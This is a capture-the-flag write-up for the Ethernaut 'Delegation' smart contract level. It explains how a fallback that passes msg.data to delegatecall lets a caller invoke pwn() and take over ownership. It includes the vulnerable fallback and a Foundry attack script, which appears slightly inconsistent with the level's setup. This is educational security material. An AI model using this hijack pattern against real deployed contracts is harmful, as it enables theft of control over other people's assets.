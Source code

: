 The goal of this level is for you to claim ownership of the instance you are given.

Things that might help

Look into Solidity's documentation on the delegatecall low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
Fallback methods
Method ids

## Goals

## The hack

This level want us to understand the danger of using Delegate calls in a smart contract. [Delegate Calls](https://solidity-by-example.org/delegatecall/) are a powerful tool that allows a contract to delegate a function call to another contract. This is a very useful feature when building upgradable contracts, but it can also be very dangerous if not used correctly.

Basically, a delegate call is a low-level function that allows another contract to execute a function using the storage of the calling contract. This means that the delegate contract can modify the state of the calling contract.

### Example

> If `contractA` executes `delegatecall` to `contractB`, `contractB`'s code is executed with `contractA`'s storage, `msg.sender` and `msg.value`.

In this Ethernaut level, the `Delegation` contract (contractA in the previous example) has a `fallback` function that delegates the call to the `Delegate` contract (contractB).

```javascript
fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
```

By using a `delegatecall` to the `pwn` function, we will update the owner of the `Delegation` contract.

> NOTE: The storage slot order also plays an important role when using delegate calls. But will we explore this in the next levels. Here, since both contract only have one state variable, we don't need to worry about it.

## Solution

1. Then, call the `Delegation` contract's `fallback` function with the `pwn()` function selector:

```javascript
contract DelegationScript is Script {
    Delegation public delegation;

    function run() public {
        vm.startBroadcast();

        delegation = new Delegation(0x611C5bf1c93108660848e97745a140F88e9aF29C);
        
        (bool success, ) = address(delegation).call(abi.encodeWithSignature("pwn()"));
        require(success, "Failed to attack");

        vm.stopBroadcast();
    }
}
```

3. You can call the `owner()` function to check if the hack was successful:

```javascript
await contract.owner();
```

## Takeaway

- Use extreme caution when using delegate calls in your smart contracts.
- Make sure to understand the implications of using delegate calls and the potential security risks.
- Delegate calls should not accept untrusted inputs.
